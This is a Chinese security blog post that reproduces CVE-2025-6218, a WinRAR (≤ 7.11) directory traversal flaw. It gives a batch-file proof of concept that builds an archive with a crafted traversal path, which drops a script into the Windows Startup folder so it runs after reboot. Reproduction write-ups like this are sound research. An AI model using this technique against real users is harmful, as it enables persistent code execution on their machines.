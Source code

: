 #  【漏洞复现】CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞  
原创 alicy  信安百科   2025-07-13 12:02  
  
**0x00 前言**  
  
  
WinRAR 是一款功能强大的压缩包管理器，它是档案工具RAR在 Windows环境下的图形界面。  
  
该软件可用于备份数据，缩减电子邮件附件的大小，解压缩从 Internet 上下载的RAR、ZIP及其它类型文件，并且可以新建 RAR 及 ZIP 格式等的压缩类文件。  
  
从5.60版开始，WinRAR启用了新的图标，但用户仍可以通过官网提供的主题包换回原版风格的图标。  
  
  
  
**0x01 漏洞描述**  
  
  
漏洞的根本原因在于WinRAR对文件路径的处理不当，恶意构造的文件路径可能导致进程访问不该访问的目录，从而在当前用户上下文中执行恶意代码。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-6218  
  
  
  
**0x03 影响版本**  
  
  
WinRAR ≤ 7.11  
  
  
  
**0x04 漏洞复现**  
  
  
1、下载安装winrar（版本  
≤ 7.11  
）  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtoTvS4gsrgJgPibpszy6fmfT1f4V4syDiabzZR2UKfJl2w5hpU6yRLI30w/640?wx_fmt=png&from=appmsg "")  
  
  
2、使用  
CVE-2025-6218的  
POC生成恶意压缩包文件  
  
  
POC：  
  
https://github.com/skimask1690/CVE-2025-6218-POC  
  
  
批处理文件内容如下：  
```
@echo off
title CVE-2025-6218 POC

echo calc.exe > POC.bat

"C:\Program Files\WinRAR\WinRAR.exe" a -ap" \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"  CVE-2025-6218.zip POC.bat

echo.
if errorlevel 1 (
    echo [!] Failed to create POC.
) else (
    echo [+] CVE-2025-6218.zip created successfully!
)
echo.

del POC.bat

pause
```  
  
  
注意：  
```
" \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
中的\.. \.. \根据当前bat的目录位置决定增加还是减少
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhto9yplgfq9dvlUozBvE4PBkvb2gPd6ic3uC9uLCiaHpzHGn5fpO8OfYaYA/640?wx_fmt=png&from=appmsg "")  
  
  
3、右键解压缩恶意文件到目录时，触发目录跳转。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtokBe8VXw88ic9iarmhZrsgLr2jDHLUc03XntllbMR5A0VaSXjokgFH17g/640?wx_fmt=png&from=appmsg "")  
  
  
4、启动目录成功看到恶意的bat文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtoiaNwbibCsgKySibCCUZqc4azZgrBpibY31J0QaQKKy11t3CVLqn6myK7wg/640?wx_fmt=png&from=appmsg "")  
  
  
5、重启系统之后可以看到恶意bat文件成功执行。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtobNjwxDePD3jibp64hhtcn0DQRvGfmFZAAMX7hDw3vthk0ib7Zgx4h9yw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://www.zerodayinitiative.com/advisories/ZDI-25-409/  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=2&sn=a3d57d6619d987a8d64a725f1bc82373&scene=21#wechat_redirect)  
  
  
  
[【漏洞复现】CVE-2023-38831 WinRAR代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484513&idx=1&sn=0fc004e592088c252a8a6ebfc33c3ea0&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-49113｜Roundcube Webmail反序列化漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485975&idx=1&sn=a3a96fcfeca034089636e9a89ae83d48&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
  

